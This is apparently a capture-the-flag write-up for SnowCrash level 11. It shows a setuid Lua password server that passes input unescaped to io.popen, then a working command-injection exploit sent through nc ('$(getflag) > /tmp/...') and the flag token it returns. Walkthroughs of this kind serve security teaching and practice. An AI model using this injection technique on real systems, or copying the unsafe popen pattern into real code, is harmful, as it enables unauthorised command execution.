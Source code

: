 # Level11

```bash
level11@SnowCrash:~$ ls -lA
total 16
-r-x------ 1 level11 level11  220 Apr  3  2012 .bash_logout
-r-x------ 1 level11 level11 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag11  level11  668 Mar  5  2016 level11.lua
-r-x------ 1 level11 level11  675 Apr  3  2012 .profile
```

```lua
level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

### Exploit

When reversing the hardcoded SHA1 hash in the source code, we get `NotSoEasy`... which is quite self-explanatory.

Instead we can do a basic shell exploitation using the string formating used for the `pass` variable, we'll print the content of `getflag` to a new file, writeable by the `flag11` user

```bash
level11@SnowCrash:~$ mktemp
/tmp/tmp.giOH6KoyPU

level11@SnowCrash:~$ chmod 777 /tmp/tmp.giOH6KoyPU

level11@SnowCrash:~$ nc -q3 127.0.0.1 5151 <<< 'test > /tmp/tmp.giOH6KoyPU' && cat /tmp/tmp.giOH6KoyPU
Password: Erf nope..
test

level11@SnowCrash:~$ nc -q3 127.0.0.1 5151 <<< '$(getflag) > /tmp/tmp.giOH6KoyPU' && cat /tmp/tmp.giOH6KoyPU
Password: Erf nope..
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

### Goto level12

```bash
level11@SnowCrash:~$ su level12
Password: <<< 'fa6v5ateaw21peobuub8ipe6s'
```
